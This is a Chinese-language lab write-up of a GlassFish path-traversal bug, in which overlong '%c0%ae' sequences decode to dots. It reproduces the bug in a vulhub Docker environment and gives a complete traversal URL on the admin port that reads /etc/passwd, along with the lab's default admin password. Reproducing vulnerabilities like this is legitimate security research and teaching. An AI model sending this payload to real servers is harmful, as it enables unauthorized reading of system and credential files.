 GlassFish 任意文件读取漏洞
==========================

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：![1.png](resource/GlassFish任意文件读取漏洞/media/rId24.png)

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/
